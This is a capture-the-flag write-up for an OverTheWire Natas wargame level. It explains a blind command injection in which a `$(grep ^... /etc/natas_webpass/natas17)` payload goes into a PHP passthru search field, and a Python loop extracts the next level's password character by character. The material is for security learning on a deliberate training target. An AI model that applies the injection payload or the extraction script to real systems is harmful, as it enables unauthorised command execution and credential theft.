 <img src="img/Pasted image 20240505165913.png" alt="Example Image" width="1080"/>

use caret `^` display the every word form `dictionary.txt` and find unique word like `anythings , anaesthetics`

we can shell cmds in through php passthru() , first we will give unique word from dictionary with that including `$(grep ^WILDCARD /etc/natas_webpass/natas17)` which looks like this

```
anaesthetics$(grep ^WILDCARD /etc/natas_webpass/natas17)
```

into needle parameter and caret (^) indicates the beginning of the line. So the command `$ grep ^b list` finds any line in the file list starting with "b."

if we got the correct character then we append that character into seen_password list
how we determine whether trying character is correct or not , simply by check if guessing character is correct , it won't return anything in `<pre></pre>` tag , if `flag == []` then we append that character with seen password , if not it will return that unique word `anaesthetics` This called as Blind Grep & RCE

```py
session = requests.Session()
seen_password = list()
while (len(seen_password) < 32):

	for ch in characters:
		print("Trying char : ", "".join(seen_password) + ch)
		response = session.post(url , data={ "needle" : "anaesthetics$(grep ^" + "".join(seen_password) + ch + " /etc/natas_webpass/natas17)" } , auth=(username,pasword))
		content = response.text
		flag = re.findall("<pre>\n(.*)\n</pre>" , content)
		if flag == []:
			seen_password.append(ch)
```
